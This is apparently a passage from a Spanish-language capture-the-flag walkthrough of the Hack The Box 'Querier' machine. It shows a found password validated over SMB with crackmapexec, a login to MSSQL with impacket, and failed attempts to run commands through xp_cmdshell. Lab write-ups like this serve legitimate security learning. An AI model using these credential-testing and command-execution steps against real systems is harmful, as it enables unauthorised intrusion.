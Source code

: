 
## Shell as mssql-svc

- Vamos a validar con `crackmapexec`.

```bash
➜  content crackmapexec smb 10.129.67.247 -u reporting -p 'PcwTWTHRwryjc$c6'
SMB         10.129.67.247   445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:HTB.LOCAL) (signing:False) (SMBv1:False)
SMB         10.129.67.247   445    QUERIER          [-] HTB.LOCAL\reporting:PcwTWTHRwryjc$c6 STATUS_NO_LOGON_SERVERS
```

- Bueno si probamos haciéndolo a nivel de `WORKGROUP` o autenticación local si nos funciona.

```bash
➜  content crackmapexec smb 10.129.67.247 -u reporting -p 'PcwTWTHRwryjc$c6' --local-auth
SMB         10.129.67.247   445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:QUERIER) (signing:False) (SMBv1:False)
SMB         10.129.67.247   445    QUERIER          [+] QUERIER\reporting:PcwTWTHRwryjc$c6
➜  content crackmapexec smb 10.129.67.247 -u reporting -p 'PcwTWTHRwryjc$c6' -d WORKGROUP
SMB         10.129.67.247   445    QUERIER          [*] Windows 10.0 Build 17763 x64 (name:QUERIER) (domain:WORKGROUP) (signing:False) (SMBv1:False)
SMB         10.129.67.247   445    QUERIER          [+] WORKGROUP\reporting:PcwTWTHRwryjc$c6
```

- Bueno lo que vamos hacer es que como tenemos el puerto `1433/tcp  open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM` abierto nos vamos a conectar al servicio.

```bash
➜  content impacket-mssqlclient WORKGROUP/reporting@10.129.67.247 -windows-auth
Impacket v0.11.0 - Copyright 2023 Fortra

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: volume
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(QUERIER): Line 1: Changed database context to 'volume'.
[*] INFO(QUERIER): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands
SQL (QUERIER\reporting  reporting@volume)>
```

- No podemos usar `xp_cmdshell` para ejecutar comandos y tampoco podemos activarlo por que no tenemos permisos.

```bash
SQL (QUERIER\reporting  reporting@volume)> xp_cmdshell "whoami"
[-] ERROR(QUERIER): Line 1: The EXECUTE permission was denied on the object 'xp_cmdshell', database 'mssqlsystemresource', schema 'sys'.
SQL (QUERIER\reporting  reporting@volume)> enable xp_cmdshell
[-] ERROR(QUERIER): Line 1: Incorrect syntax near 'xp_cmdshell'.
SQL (QUERIER\reporting  reporting@volume)> enable_xp_cmdshell
[-] ERROR(QUERIER): Line 105: User does not have permission to perform this action.
[-] ERROR(QUERIER): Line 1: You do not have permission to run the RECONFIGURE statement.
[-] ERROR(QUERIER): Line 62: The configuration option 'xp_cmdshell' does not exist, or it may be an advanced option.
[-] ERROR(QUERIER): Line 1: You do not have permission to run the RECONFIGURE statement.
```
